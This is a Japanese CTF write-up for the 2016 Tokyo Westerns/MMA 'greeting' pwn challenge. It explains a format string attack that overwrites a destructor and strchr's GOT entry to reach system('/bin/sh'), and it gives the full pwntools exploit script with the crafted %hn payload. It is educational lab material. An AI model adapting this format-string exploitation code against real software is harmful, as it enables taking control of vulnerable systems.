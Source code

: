 ```yaml
---
layout: post
alias: "/blog/2016/12/09/twctf-2016-greeting/"
date: "2016-12-09T18:17:13+09:00"
title: "Tokyo Westerns/MMA CTF 2nd 2016: greeting"
tags: [ "ctf", "writeup", "pwn", "twctf", "format-string-attack", "destructor", "got-overwrite" ]
"target_url": [ "https://ctftime.org/task/2735" ]
---
```


bataさんリストの先頭にあったのでpwn会でやった。これぐらいの難しさはbabyでなくてeasyじゃなかったっけか。

## solution

format string attackでdestructorとGOTを書き換え、return-to-mainして`system("/bin/sh")`。
入出力の文字列長の制約が変に厳しいので`%hn`あたりを上手く使う。


まず気付くのは`.tomori`sectionの`nao`関数。
実行すると呼ばれるが`main`からは呼ばれていないこれは、constructorとして登録されていて、`main`に入る前に呼ばれる。
gdbで`set follow-fork-mode parent`にせずに実行すると`main`でbreakできなかったりするが、これはこの子のおかげ。

format string bugがあるが、`printf`の後に何も関数を踏まないので困ってしまう。
これはdestructorをを書き換えることで回避する。
`nao`が書かれている場所の下、`__do_global_dtors_aux`を書き換えればよい。

destructorでripを取ったとすると引数を渡すのに困る。
そこで`main`関数の先頭に戻り、`fgets`で`/bin/sh`を渡して(`system`に書き換えた)`strchr`に与え、shelを取る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
args = parser.parse_args()
context.log_level = args.log_level

dtor = 0x8049934 # 0x80485a0 -> main
main = 0x80485ed
strchr_got = 0x8049a50 # 0xffffffff -> system_plt
system_plt = 0x8048490

# p = remote(args.host, args.port)
p = process('./greeting')
p.recvuntil('Please tell me your name... ')
payload = ''
payload += 'AB'
payload += p32(strchr_got) # 12
payload += p32(strchr_got + 2) # 13
payload += p32(dtor) # 14
payload += '%%%dd%%12$hn' % ((u16(p32(system_plt)[0:2]) - len('Nice to meet you, AB' + 'AAAA' * 3)) % 65536)
payload += '%%%dd%%13$hn' % ((u16(p32(system_plt)[2:4]) - u16(p32(system_plt)[0:2])) % 65536)
payload += '%%%dd%%14$hhn' % ((ord(p32(main)[0]) - u16(p32(system_plt)[2:4])) % 256)
log.info(hex(len(payload)))
log.info(fiddling.hexdump(payload))
p.sendline(payload)
time.sleep(1)
p.sendline('sh')
time.sleep(1)
p.sendline('id')
p.interactive()
```
